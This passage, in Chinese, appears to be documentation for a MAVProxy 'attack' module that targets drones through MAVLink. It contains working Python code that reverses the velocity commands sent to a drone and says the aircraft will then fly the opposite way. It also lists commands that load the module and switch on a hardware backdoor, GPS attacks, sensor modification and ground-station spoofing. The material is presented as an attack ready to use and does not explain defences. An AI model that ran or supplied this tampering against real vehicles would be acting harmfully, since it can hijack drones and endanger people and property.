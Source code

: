 ### 7. 速度反向攻击 (Reverse Velocity)

**功能**: 反转速度指令
**实现方式**:
```python
if self.reverse_velocity:
    if m.get_type() == "SET_POSITION_TARGET_LOCAL_NED":
        m.vx = -m.vx  # 反转 x 方向速度
        m.vy = -m.vy  # 反转 y 方向速度
        m.__init__(m.time_boot_ms, m.target_system, m.target_component, m.coordinate_frame, m.type_mask,
                   m.x, m.y, m.z, m.vx, m.vy, m.vz, m.afx, m.afy, m.afz, m.yaw, m.yaw_rate)
        m.pack(mav)
```

**攻击效果**:
- 反转速度指令的方向
- 导致无人机向相反方向飞行

**使用方法**:
```bash
attack reverse_velocity
```

## 消息处理机制

### mavlink_packet 方法
处理从主设备（通常是无人机）发送到从设备（通常是地面站）的消息。

### mavlink_backward 方法
处理从从设备发送到主设备的消息。

## 使用示例

### 启动攻击模块
```bash
# 在 MAVProxy 中加载攻击模块
module load attack

# 启用硬件后门攻击
attack hardware_backdoor on

# 启用 GPS 攻击
attack gps on

# 启用传感器修改
attack sensor_modification on

# 启用地面站欺骗
attack gcs on
```
